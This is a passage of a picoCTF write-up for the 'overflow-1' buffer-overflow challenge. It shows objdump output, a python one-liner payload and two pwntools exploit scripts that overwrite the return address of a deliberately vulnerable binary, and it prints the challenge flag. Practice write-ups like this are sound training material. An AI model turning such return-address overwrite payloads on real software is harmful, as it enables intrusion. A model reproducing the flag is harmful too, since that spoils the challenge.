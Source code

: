 ```bash
$ objdump -D -Mintel vuln | grep flag
080485e6 <flag>:
 8048618:	75 1c                	jne    8048636 <flag+0x50>
```

Flag is located in our binary at `0x080485e6` We also can see that same address from Binary Ninja above. So our payload would be 72 characters to fill the buffer, 4 bytes to overwrite the saved EBP and then our address in bytes in little-endian order.

A quick python solve would look like this:

```bash
$ python -c "print 72 * 'A' + '_ebp' + '\xe6\x85\x04\x08'" | ./vuln
Give me a string and lets see what happens:
Woah, were jumping to 0x80485e6 !
picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5fe1ff3d8}
Segmentation fault (core dumped)
```

But we are not done just yet, lets write a pwntools script to interact with the binary and get the flag.

```python
#!/usr/bin/env python
from pwn import *
context.log_level = 'error'
p = process('./vuln',cwd='/problems/overflow-1_4_6e02703f87bc36775cc64de920dfcf5a')
flag = p32(0x080485e6)
payload = 72 * 'A' + '_ebp' + flag
p.sendlineafter(':',payload)
p.recvuntil('!\n')
print p.recv()
```

Running this give us the flag as expected.

```
$ ./exploit.py
picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5fe1ff3d8}
```
That is not really taking advantage of the full power of `pwntools`... That would look something like this:

```python
#!/usr/bin/env python2
from pwn import *

context.log_level = 'critical'

path = '/problems/overflow-1_4_6e02703f87bc36775cc64de920dfcf5a/'
exe = context.binary = ELF(path + 'vuln')
p = process(['./vuln'],cwd=path)
payload = cyclic(1024)

p.sendline(payload)
p.wait()

core = Corefile('./core')
assert pack(core.eip) in payload

p = process(['./vuln'],cwd=path)
payload = fit({cyclic_find(core.eip):exe.symbols.flag})
p.sendline(payload)
p.recvuntil('!\n')
print p.recvall()
```
